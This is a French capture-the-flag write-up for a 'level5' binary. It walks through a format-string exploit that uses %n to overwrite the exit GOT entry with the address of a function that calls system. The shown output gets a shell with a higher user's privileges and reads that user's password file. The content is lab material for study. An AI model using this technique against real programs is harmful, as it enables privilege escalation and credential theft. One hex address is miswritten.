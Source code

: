 # leUVeL cInQ

- On cherche l'adresse du exit afin de l'overwrite pour appeler la fonction o. Car c'est la seule fonction qui n'a pas d'utilité au programme et qui ne quitera pas la programme.

<pre>
$> objdump -R ./level5
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<strong>08049838</strong> R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
</pre>

- (hex)0x08049838 = (little indian)\\x38\\x98\\x04\\x08

- Comme pour l'exercice precedent nous cherchons la place de l'adresse passer en argument. Afin d'y ecrire plus tard se qu'on veut

<pre>
$> python -c "print('AAAA' + '\x38\x98\x04\x08' + '%x ' * 5)" | ./level5
AAAA8200 b7fd1ac0 b7ff37d0 <strong>41414141 8049838</strong>
</pre>

- Afin de pouvoir overwrite l'appel à exit nous devons recuperer l'adresse de la fonction o.

<pre>
$> gdb ./level5
(gdb) disass o
Dump of assembler code for function o:
   <strong>0x080484a4</strong> <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
</pre>
- (hex)0x080484a5 = (dec)134513828

- Il faut maintenant utiliser le %n pour ecrire par dessus exit

<pre>
$> (python -c "print('AAAA' + '\x38\x98\x04\x08' + '%134513820d' + '%5\$n')"; cat) | ./level5 | tr -d ' '

id
uid=2045(level5)gid=2045(level5)euid=2064(level6)egid=100(users)groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
AAAA8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</pre>
